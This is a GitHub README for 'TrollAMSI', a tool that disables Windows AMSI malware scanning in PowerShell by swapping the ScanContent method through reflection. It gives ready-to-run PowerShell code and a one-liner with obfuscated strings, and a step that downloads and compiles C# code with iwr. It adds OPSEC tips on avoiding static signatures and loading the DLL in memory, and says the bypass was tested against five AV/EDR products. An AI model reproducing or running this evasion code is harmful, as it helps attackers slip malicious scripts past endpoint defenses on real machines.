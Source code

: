 # TrollAMSI

**Note:** Every other technique in the internet patches different amsi function. We are <ins>**NOT**</ins> patching the actual function here.

Matt Graeber first introduced the technique to bypass AMSI by using reflection in 2016. The technique primarily targets field attributes. **Source:** https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Using-Matt-Graebers-Reflection-method. Here, we bring us back to 2016 by targetting methods which I call a new technique "Reflection with method swapping" (i.e essentially monkeypatching). In our specific case, we use reflection to get a handle to the "ScanContent" method and updates it to point to a method we control. Additionally, this opens doors for other techniques such as ETW and CLM possibly(?). AMSI bypasses are usually detected at 2 stages:
1. The attempt to bypass -> both static and dynamic
2. The bypass itself -> Post bypass, the signatures left behind

**The beauty of this technique as opposed to other AMSI bypass techniques such as byte patching etc for the 2 detections mentioned above is:**
1. There is a low detection surface:
    - statically: because the code profile is so short and it is hard to apply a signature on any part of the common .NET functionality used
    - dynmically: because of the lack of hooked win32 API calls 
2. Because we are modifying JIT/IL memory which is hard for AV/EDR to monitor or has not been monitored at this point by a lot of vendors

```diff
! UPDATE 31/05/2024 
! For some security products, modify method M to pass in empty argument string c.
! For CSHARP example, private static int M(string c, string s) { c = ""; return 1; }
! For POWERSHELL example, class TrollAMSI{static [int] M([string]$c, [string]$s){ $c = ""; return 1}}
```

## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence **WAAAAAY more opsec safe**
- No amsi.dll patching or byte patching for that matter
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```
### Raw Powershell One-Liner
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on 5 AV/EDR products
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement -> Refer to TrollCLM
  - maybe there's more?
## Credits
1. Matt Graeber original amsi bypass in 2016
2. https://github.com/calebstewart/bypass-clm


## Disclaimer
Should only be used for educational purposes!
